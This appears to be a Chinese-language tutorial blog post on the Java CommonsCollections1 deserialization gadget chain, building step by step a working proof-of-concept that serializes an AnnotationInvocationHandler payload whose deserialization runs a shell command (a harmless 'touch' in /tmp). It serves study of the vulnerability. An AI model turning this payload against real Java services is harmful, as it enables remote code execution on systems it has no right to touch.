










# java 反序列化 gadgets 学习

## 简介
在很长一段时间内，我对 java 反序列化 gadgets 一直处于一知半解状态。反序列化很好理解，但是什么是 gadgets ，这和内存 exploit 中的 PoP2Ret那种 gadgets 有什么关系?

在了解了rmi、jndi那套白给反序列化漏洞原理后，gadgets 是我认为学习java 反序列化的第2阶段，也是现在 java 反序列化漏洞的主流模式。

本文以 CommonsCollections1 反序列化漏洞为例，参考 yso 注释提供的 gadgets，一边理解漏洞代码，一边一步一步手动构造payload。


## 测试环境
jdk：1.7.0_80
CommonsCollections：3.1


## 漏洞代码与poc
gadgets 从`InvokerTransformer#transform`开始，从后往前推，每经过1个新的 method ，我会手动构造一个 rce 的 poc 。

### InvokerTransformer#transform

反射调用，Class由参数控制，Method以及调用参数由3个类的属性控制。3个属性的值在第2个（按照代码中的declare顺序）构造函数中可控

这里很直观地能想到反射调用执行exec，但是需要满足这里的格式。正常通过反射 rce 的代码大概是下面这样：
```java
public static void testRuntime() throws Exception {
    Class cls = Class.forName("java.lang.Runtime");
    Method method = cls.getMethod("getRuntime");
    Runtime tmpRuntime = (Runtime)method.invoke(null, null);
    tmpRuntime.exec("touch /tmp/XiaoC");
}
```
这段代码在获取`java.lang.Runtime`的Class实例后，有3次method invocation，依次是`Class#getMethod`、`Runtime#invoke`和`Runtime#exec`。

我写了下面代码测试看能否执行`Method method = cls.getMethod("getRuntime");`
getMethod定义
```java
public Method getMethod(String name,
                        Class<?>... parameterTypes)
                 throws NoSuchMethodException,
                        SecurityException
```
第2个参数用不到，用空数组代替。
```java
public static void testInvokerTransformer() throws Exception {
    Class cls = Runtime.class;
    String methodName = "getMethod";
    Class[] paramTypes = new Class[]{String.class, Class[].class};
    Object[] args = new Object[]{"getRuntime", new Class[0]};
    InvokerTransformer invokerTransformer = new InvokerTransformer(methodName, paramTypes, args);
    invokerTransformer.transform(cls);
}
```
这样执行起来没有问题。但是前面说了，`Runtime.exec`需要3次 method invocation ，这里只有一次，除非能找到一个反复调用`InvokerTransformer#transform`的地方，并且还需要把结果和传入参数串起来，这就引入了`ChainedTransformer`。


### ChainedTransformer#transform

对transformers列表逐个`transform`，并且把上次的结果作为下次`transform`的参数。这个类完美地满足需要反复调用的需求，使用方法可以概括为：
1. 定义transformer list，注意成员顺序，之后会按照list顺序加载transformer执行`transform`
2. 用步骤1创建的transformer list，实例化1个`ChainedTransformer`
3. 调用`ChainedTransformer#transform`

下面代码可以实现rce
```
public static void testChainedTransformer() throws Exception {
    Class cls = Runtime.class;
    Transformer[] transformers = new Transformer[]{
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                    new Object[]{"touch /tmp/XiaoC"})
    };
    Transformer chain = new ChainedTransformer(transformers);
    chain.transform(cls);
}
```

### LazyMap#get
gadgets 中的下一个 caller 是`LazyMap#get`

`LazyMap`有两个构造函数

他们的修饰符都是`protected`，无法通过构造函数实例化，可以通过静态方法`decorate`实例化。

所以新的 rce 代码就呼之欲出了
```java
public static void testLazyMap() {
    Class cls = Runtime.class;
    Transformer[] transformers = new Transformer[]{
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                    new Object[]{"touch /tmp/XiaoC"})
    };
    Transformer chain = new ChainedTransformer(transformers);
    Map map = LazyMap.decorate(new HashMap(), chain);
    map.get(cls);
}
```

### AnnotationInvocationHandler
gadgets 中 CommonsCollections1 的部分到上面就结束了，但是现在显然还无法触发，既然是反序列化 gadgets，必然是反序列化导致的。于是初代目大哥找到了`AnnotationInvocationHandler`这个类。
```java
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private static final long serialVersionUID = 6182022883658399397L;
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        this.type = type;
        this.memberValues = memberValues;
    }

    public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class<?>[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        assert paramTypes.length == 0;
        if (member.equals("toString"))
            return toStringImpl();
        if (member.equals("hashCode"))
            return hashCodeImpl();
        if (member.equals("annotationType"))
            return type;

        // Handle annotation member accessors
        Object result = memberValues.get(member);

        if (result == null)
            throw new IncompleteAnnotationException(type, member);

        if (result instanceof ExceptionProxy)
            throw ((ExceptionProxy) result).generateException();

        if (result.getClass().isArray() && Array.getLength(result) != 0)
            result = cloneArray(result);

        return result;
    }
...
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();


        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; all bets are off
            return;
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
}
```
这个类的内容有点多，相比于之前的 gadgets 触发机制复杂得多，我们慢慢来看。
首先这个类实现了两个接口：`InvocationHandler`和`Serializable`。这表明：
（1）它是某个类的代理类
（2）它是可序列化的。

进一步表明这个类如果出现在反序列化流程中：
（1）它的定制化`readObject`会被调用
（2）如果调用这个类实例代理的类方法，`invoke`会被调用。

我现在需要和之前的`LazyMap#get`关联起来，对于如何串起后面的 gadgets 的起点（`LazyMap#get`），整理一下现有条件。

首先根据动态代理的机制，只要我定义`AnnotationInvocationHandler`为`LazyMap`的 hook（我在这里把 java 动态代理中的 handler 称为 hook），定义`AnnotationInvocationHandler`时传入一个`LazyMap`实例，代理接口设置为`Map`，再利用`Proxy.newProxyInstance`获取一个运行时代理对象（实际上是一个实现了Map接口的对象），那么之后任何利用**运行时代理对象调用Map接口方法**的操作，都会触发`invoke`，进而执行`invoke`里面的`Object result = memberValues.get(member);`这行代码，也就是我们想要调用的`LazyMap#get`。

由于`AnnotationInvocationHandler`实现了序列化接口，并且自己实现了`readObject`，所以当一个序列化的`AnnotationInvocationHandler`对象被反序列化时，`AnnotationInvocationHandler#readObject`会被调用。此外，`readObject`必然是 gadgets 的起点，因为只有它会在反序列化的时候会被自动调用。

现在可以设想一下：
首先我构造一个包含后续 gadgets 的`LazyMap`，用它实例化1个`AnnotationInvocationHandler`，动态代理Map接口，获取一个实现了`Map`接口的 proxy 对象，之后**任何利用proxy调用Map接口任何方法的操作**，都会触发调用`invoke`，执行`invoke`里面的
```
Object result = memberValues.get(member);
```
这一行代码触发后面的gadgets。

上面提到的代理调用操作怎么触发呢，利用级联序列化的特点，我用刚才创建的代理对象 proxy 再次实例化一个新的hook，代理`Map`接口。由于它仍然是序列化的，当它进入反序列化流程，首先会反序列化级联的那个代理对象 proxy 的反序列化操作，完成和`Map`接口的代理管理。然后反序列化新 hook（级联反序列化顺序是从里到外） ，新 hook 执行到`readObject`里这一行代码
```
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
```
`entrySet` 是`Map`接口的方法，如果 memberValues 是刚才反序列化创建的代理对象，代理操作在这里就触发了。执行`invoke`，打通整个 gadgets。


### 新的LazyMap#get的poc
为了构造AnnotationInvocationHandler的poc，我需要改造之前的LazyMap#get的poc，原因如下。
之前的poc是这样的：

我需要控制get的参数是`Runtime.class`。
如果按照刚才设计的触发流程，现在的实际情况是
```
1 反序列化外层hook时，执行readObject到其中的：
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
触发代理流程，调用invoke

2 调用invoke时，method=entrySet
public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        ...
        Object result = memberValues.get(member);
}
```
即现在我无法控制`LazyMap.get`的参数。为了重新完成 gadgets ，引入了`ConstantTransformer#transform`。

`ConstantTransformer#transform`原样返回传入的参数。所以我可以把`Runtime.Class`也放到 transformer 链中，新的 poc 代码
```
public static void testLazyMapNew() {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                    new Object[]{"touch /tmp/ccs"})
    };
    Transformer chain = new ChainedTransformer(transformers);
    Map map = LazyMap.decorate(new HashMap(), chain);
    map.get(1);
}
```
这里传给最后的`map.get`的参数无所谓，因为`ConstantTransformer#get`只会返回它实例化时传入的参数


### 着手构造最终poc
根据上述信息可以写出如下poc
```
public static void testAnnotationInvocationHandlerPayload() throws Exception {
    // CommonCollections1 gadgets
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                    new Object[]{"touch /tmp/ccs"})
    };
    Transformer chain = new ChainedTransformer(transformers);
    Map map = LazyMap.decorate(new HashMap(), chain);

    // create dynamic for LazyMap, hook is AnnotationInvocationHandler
    InvocationHandler invocationHandler = (InvocationHandler) Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0].newInstance(Override.class, map);
    Map proxy = (Map) Proxy.newProxyInstance(
            Test.class.getClassLoader(),
            map.getClass().getInterfaces(),
            invocationHandler
    );

    // use created proxy to construct a new hook(AnnotationInvocationHandler)
    InvocationHandler anotherInvocationHandler = (InvocationHandler) Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0].newInstance(Override.class, proxy);

    // serialize anotherInvocationHandler to file
    try (ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("TestAnnotationInvocationHandlerSer"))) {
        os.writeObject(anotherInvocationHandler);
    } catch (Exception e) {
        e.printStackTrace();
    }

    // deserialize
    try (ObjectInputStream is = new ObjectInputStream(new FileInputStream("TestAnnotationInvocationHandlerSer"))) {
        InvocationHandler deserializeFilePayload = (InvocationHandler) is.readObject();
    } catch (IOException | ClassNotFoundException e) {
        e.printStackTrace();
    }
}
```
直接在jdk1.7.0_80下运行报错
```
Exception in thread "main" java.lang.IllegalAccessException: Class Test can not access a member of class sun.reflect.annotation.AnnotationInvocationHandler with modifiers ""
	at sun.reflect.Reflection.ensureMemberAccess(Reflection.java:110)
```
google了一下，发现是反射获取 non-public AccessField 的问题，通过setAccessible可以解决，修改一下
```
public static void testAnnotationInvocationHandlerPayload() throws Exception {
    // CommonCollections1 gadgets
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                    new Object[]{"touch /tmp/XiaoC"})
    };
    Transformer chain = new ChainedTransformer(transformers);
    Map map = LazyMap.decorate(new HashMap(), chain);

    // create dynamic for LazyMap, hook is AnnotationInvocationHandler
    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor constructor = clazz.getDeclaredConstructors()[0];
    constructor.setAccessible(true);
    InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Override.class, map);
    Map proxy = (Map) Proxy.newProxyInstance(
            Test.class.getClassLoader(),
            map.getClass().getInterfaces(),
            invocationHandler
    );

    // use created proxy to construct a new hook(AnnotationInvocationHandler)
    InvocationHandler anotherInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, proxy);

    // serialize anotherInvocationHandler to file
    try (ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("TestAnnotationInvocationHandlerSer"))) {
        os.writeObject(anotherInvocationHandler);
    } catch (Exception e) {
        e.printStackTrace();
    }

    // deserialize
    try (ObjectInputStream is = new ObjectInputStream(new FileInputStream("TestAnnotationInvocationHandlerSer"))) {
        String anything = (String) is.readObject();
    } catch (IOException | ClassNotFoundException e) {
        e.printStackTrace();
    }
}
```
测试成功，并且可以看到我这里用的String类型进行反序列化声明。考虑到实际使用情况，任何类型都有可能，但是不影响结果。

## 参考
[[1] Creating a Chain of Transformations](https://www.oreilly.com/library/view/jakarta-commons-cookbook/059600706X/ch04s12.html)
[[2] AnnotationInvocationHandler 源码](https://raw.githubusercontent.com/openjdk-mirror/jdk7u-jdk/master/src/share/classes/sun/reflect/annotation/AnnotationInvocationHandler.java)
[[3] frohoff/ysoserial 项目](https://github.com/frohoff/ysoserial)
[[4] setAccessible 定义](https://docs.oracle.com/javase/8/docs/api/java/lang/reflect/AccessibleObject.html#setAccessible-boolean-)